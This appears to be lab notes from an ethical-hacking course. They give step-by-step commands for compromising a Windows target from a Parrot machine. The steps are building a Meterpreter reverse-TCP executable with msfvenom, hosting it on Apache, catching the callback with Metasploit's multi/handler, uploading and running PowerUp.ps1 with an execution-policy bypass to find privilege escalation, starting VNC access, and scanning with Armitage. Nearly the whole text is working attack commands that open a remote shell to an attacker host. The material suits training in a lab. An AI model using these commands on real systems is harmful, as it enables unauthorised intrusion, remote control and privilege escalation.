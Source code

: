 	[parrot]
	sudo su
	msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 LHOST 10.10.1.13 LPORT 444 -f exe -o /home/attacker/Desktop/Test.exe
	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	cp /home/attacker/Desktop/Test.exe /var/www/html/share
	service apache2 start
	
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST 10.10.1.13
	set LPORT 444
	exploit 

	[windows]
	http://10.10.1.13/share
	download Test.exe
	
	[parrot]
	{Note: If the Meterpreter shell is not automatically connected to the session, type **sessions -i 1**}
	 sysinfo
	upload /root/PowerSploit/Privesc/PowerUp.ps1 -->uploads the PowerSploit file to the target system’s present working directory.

Note: PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service
abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.

	shell
	powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks”

Note: Attackers exploit misconfigured services such as unquoted service paths, service object permissions, unattended installs, modifiable registry autoruns and configurations, and other locations to elevate access privileges. After establishing an active session using Metasploit, attackers use tools such as PowerSploit to detect misconfigured services that exist in the target OS.

exploit VNC vulnerability to gain remote access

	run vnc
	
-----------

- Gain access to a remote system using Armitage
  [parrot]

  	service start postgresql
  	Start Metasploit framework --> armitage
  	Application -> Exploitation Tools -> Metsploit Framework -> armitage
  	
  	host -> Nmap scan -Intense scan
  	target ->     10.10.1.11
  	Target host should appear on screen
  	